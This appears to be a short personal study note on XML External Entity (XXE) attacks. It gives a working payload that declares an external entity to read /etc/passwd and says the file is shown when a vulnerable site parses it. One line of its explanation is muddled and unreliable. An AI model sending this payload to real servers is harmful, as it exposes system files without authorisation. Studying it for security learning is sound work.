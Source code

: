 [[What is XML]]

# XXE Payload to read file from system
Created:  [[2022-07-10]]
Tags: #fleeting 

---
```XML
<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>
```
We replace `&read` with `SYSTEM` and path of file

If we use this to website vulnerable to XXE
Normally, it would display contents of file `/etc/passwd`

Sometimes, you can fail to read files



[[XXE Payload use to replace words inside root element]]








### References
1. 